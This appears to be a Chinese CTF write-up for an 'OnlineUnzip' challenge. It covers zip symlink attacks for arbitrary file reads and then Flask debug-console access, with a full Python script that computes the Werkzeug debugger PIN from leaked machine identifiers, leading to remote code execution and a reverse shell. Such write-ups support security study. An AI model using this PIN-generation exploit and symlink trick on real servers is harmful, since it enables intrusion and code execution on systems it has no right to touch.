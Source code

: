 ## OnlineUnzip
zip很容易构造../的文件名（比如手动patch或者丢给java生成），也很容易被开发者防到  

软链接是另一种zip攻击的方法，解决方法是用修补过的unzip，但看起来这道题没修  

这道题比较简单的方法是直接把`/`根目录ln出来，这样直接就能任意文件读，但读flag会提示无权限 

然后注意到debug=True，但之前没做过Flask控制台的题，所以这里卡了两个多小时，痛失一血  

开了debug之后不仅有报错，还可以通过/console进入控制台，当然高版本需要输入pin，但这个pin是可计算的

不过网上的脚本都不怎么能用，干脆把服务器的pin生成代码拉下来看看，然后再改，于是就有：

```python
import hashlib
from itertools import chain

probably_public_bits = [
    'ctf',  # /etc/passwd
    'flask.app',  # 默认
    'Flask',  # 默认
    '/usr/local/lib/python3.8/site-packages/flask/app.py'  # 报错或者想办法拿
]
# docker环境取 1 3 ， 其余应该没有3
private_bits = [
    '95529876171',  # /sys/class/net/ens0/address
    '96cec10d3d9307792745ec3b85c89620'  # /etc/machine-id 
    # 'c5938f8f-1a6f-4e03-8a6e-4fed4f38afa9' # /proc/sys/kernel/random/boot_id 
    'e6714e8f0c24bf998ff3953127d9a0f60e30b712b0cda501c207092fd26bfc18'  # /proc/self/cgroup
]

# 3.6是md5，3.8是sha1
h = hashlib.sha1()

for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")
cookie_name = f"__wzd{h.hexdigest()[:20]}"
h.update(b"pinsalt")
num = f"{int(h.hexdigest(), 16):09d}"[:9]

for group_size in 5, 4, 3:
    if len(num) % group_size == 0:
        rv = "-".join(
            num[x: x + group_size].rjust(group_size, "0")
            for x in range(0, len(num), group_size)
        )
        print(rv)
```
有了pin就可以RCE了，没测控制台能不能直接读，反弹的shell可以读flag
